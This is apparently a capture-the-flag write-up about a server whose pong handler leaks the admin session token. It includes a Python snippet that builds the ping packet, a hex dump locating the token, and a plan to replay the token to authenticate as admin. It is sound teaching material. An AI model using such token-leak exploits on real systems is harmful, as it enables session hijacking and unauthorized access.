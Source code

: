## Vuln

We're particularly interested in ```pong``` within ```server_nix``` because the vulnerability lies within the method. 

If we look back at pong again, if stores the session token of ```rowid==1```, which is equivalent to storing the admin's.
```c 
*(&data[3] + 4) = "SELECT token FROM sess WHERE rowid == 1";
```

And that is sent back to the client. Client receives the packet with admin's session token, but does not print it.

### Plan
We could exploit this by replicating the packet, receive response, dump the admin session token, and use it to authenticate as admin to print the flag.

## Exploit

The first part of the exploitation is to construct the ping packet, which can be written as:
```python
req = b'\x01\x01' # version and menu (ping)
req += b'A'*16 # sess
req += b'\x04\x00' # size
req += b'PING'
```

Here, I put 16 A's as session token as it doesn't matter for the ping request.

Then I would receive a response from the server containing "PONG."

:warning: Here, you could figure out where the admin's session token lie by storing a recognizable sequence of characters on the admin's token within ```init.sql``` and launching a test container and analyze the response (I put 16 A's). We can observe that it is 16 bytes from 8th to 23rd byte of the packet as shown here:
```bash
[DEBUG] Received 0x404 bytes:
    00000000  01 00 04 00  50 4f 4e 47  41 41 41 41  41 41 41 41  │····│PONG│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  00 00 00 00  00 00 00 00  │AAAA│AAAA│····│····│
    00000020  00 00 00 00  f0 41 40 00  00 00 00 00  15 00 00 00  │····│·A@·│····│····│
    00000030  64 00 00 00  10 7f d9 01  00 00 00 00  98 4e db 01  │d···│····│····│·N··│
    00000040  00 00 00 00  60 03 3d 67  fe 7f 00 00  c2 32 40 00  │····│`·=g│····│·2@·│
    00000050  00 00 00 00  00 04 00 00  00 00 00 00  50 49 4e 47  │····│····│····│PING│
    00000060  0a 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000400  00 00 00 00                                         │····│
    00000404
```

Then we reuse the session token to construct another packet to authenticate as an admin and print the flag.
